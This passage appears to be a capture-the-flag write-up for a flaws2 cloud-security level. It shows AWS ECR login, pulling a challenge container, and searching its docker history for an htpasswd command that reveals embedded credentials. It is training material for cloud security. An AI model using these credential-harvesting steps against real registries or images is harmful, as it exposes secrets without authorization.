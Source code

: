 
Pull the container using docker and inspect
First login to aws ecr,

`
aws ecr get-login --region us-east-1 --profile level1.flaws2
`

![](CLOUD/Screenshot%202019-11-07%20at%2012.19.23%20AM.png)

Use docker login command to login and download the container

`
docker pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
`

![](CLOUD/Screenshot%202019-11-07%20at%2012.21.38%20AM.png)

We can see few cmds and lot of layers are in the image during inspect,
We have to view the old cmds executed 

```
docker images
docker image inspect 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
docker history 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2
docker history 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2 --no-trunc | grep "/bin/sh -c htpasswd -b -c"
```
